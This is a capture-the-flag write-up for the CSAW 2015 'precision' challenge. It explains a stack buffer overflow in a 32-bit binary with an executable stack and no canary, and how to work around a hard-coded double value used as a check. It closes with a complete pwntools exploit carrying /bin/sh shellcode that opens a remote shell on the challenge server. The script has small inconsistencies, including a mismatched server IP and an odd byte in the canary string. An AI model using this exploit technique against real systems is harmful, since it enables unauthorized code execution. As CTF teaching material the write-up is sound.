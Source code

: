 #CSAWCTF 2015 Quals: precision

----------
## Challenge details
Category: Exploitables

Points:   100

**Description:**
>*nc 54.210.15.77 1259*
>
>*Updated again!*
>
>*[precision_a8f6f0590c177948fe06c76a1831e650](challenge/precision)*

## Writeup
It looks like we're given a 32-bit linux executable.

```bash
[alokpathy@lawn-143-215-63-181 2015]$ file precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
```

Let's run it and see what it does.
```bash
[alokpathy@lawn-143-215-63-181 2015]$ ./precision 
Buff: 0xff8bac38

```

It prints out what looks like the adderss of some buffer and asks for some input through ```stdin```. Let's see what happens what I just give it AAA.

```bash
[alokpathy@lawn-143-215-63-181 2015]$ ./precision 
Buff: 0xff8bac38
AAAA
Got AAAA
```
It just prints out what we typed in. Not exactly sure how that helps. Before we bring up IDA, let's see what we can learn about this file.

```bash
[alokpathy@lawn-143-215-63-181 2015]$ readelf -l precision

Elf file type is EXEC (Executable file)
Entry point 0x8048420
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00774 0x00774 R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x0012c 0x00140 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000698 0x08048698 0x08048698 0x0002c 0x0002c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1
```

```bash
[alokpathy@lawn-143-215-63-181 2015]$ ~/Documents/checksec.sh/checksec --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    FORTIFY	FORTIFIED FORTIFY-able  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		2	precision
```

Awesome, we have an executable stack, no canary or PIE, and disabled NX. Not many restrictions at all on this.

Let's pull up IDA and see what that gives us.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+18h] [bp-88h]@1
  double v5; // [sp+98h] [bp-8h]@1

  v5 = 64.33333;
  setvbuf(stdout, 0, 2, 0);
  printf("Buff: %p\n", &v4);
  __isoc99_scanf("%s", &v4);
  if ( 64.33333 != v5 )
  {
    puts("Nope");
    exit(1);
  }
  return printf(str, &v4);
}
```

It's calling ```scanf``` to bring in a string from ```stdin```? That's definitely vulnerable. We can input arbitrary length strings now. All we need is for ```v5``` to continue being ```64.333```, but that doesn't change at all in the program, so it should be fine.

```bash
[alokpathy@lawn-143-215-63-181 2015]$ python -c 'print "A"*200' | ./precision 
Buff: 0xffe0c9e8
Nope
```

Huh? Is ```v5``` not equal to ```64.333``` anymore? But ```v5``` isn't even referenced anywhere else in the code? 

When we inputted such a large string into ```precision```, we overwrote values on the stack that normally would not be. One of which, in this case, is ```v5```. So ```v5``` would not be equal to ```64.333``` after we put in 200 A's into ```stdin```. It sort of acts like a stack canary by itself. This presents a small issue, though, since we'd like to overwrite EIP, which is located after ```v5``` on the stack. To overcome this, we can simply input ```64.333``` as part of out input when we hit ```v5```on the stack. 

So our exploit looks like the following:

```
(shellcode)(buffer)(64.3333)(more bufferbuffer)(pointer to shellcode)
```

Simple enough. Note that our shellcode must not contain anything that ```scanf``` interprets as whitespace (e.g. ```0xb0```). Also, although ASLR is enabled on the server, we are provided with the pointer to the beginning of the buffer through ```stdout```.

Thus, our exploit code becomes the following:

```python
from pwn import *
import binascii

sock = remote("54.173.98.115", 1259)

buff_addr_str = sock.recvline()
buff_addr = buff_addr_str[8:16]

byte1 = buff_addr[0:2]
byte2 = buff_addr[2:4]
byte3 = buff_addr[4:6]
byte4 = buff_addr[6:8]

# Pointer to shellcode
hex_buff_addr = binascii.unhexlify(byte4) + binascii.unhexlify(byte3) + binascii.unhexlify(byte2) + binascii.unhexlify(byte1) 

# Shellcode
shellcode = "\x31\xc0\xb0\x30\x01\xc4\x30\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\xb0\xc0\xe8\x04\xcd\x80\xc0\xe8\x03\xcd\x80"
 
# Hexadecimal of 64.333
canary_hex = "\xa5\x31\x5a\x47\x55\x15\x50x\x40"

payload = shellcode + "A"*93 + canary_hex +"A"*12 + hex_buff_addr

sock.send(payload)
sock.interactive()
```

Running this python script launches a shell on the server, and opening the flag file on that gives us the flag:

```flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}```



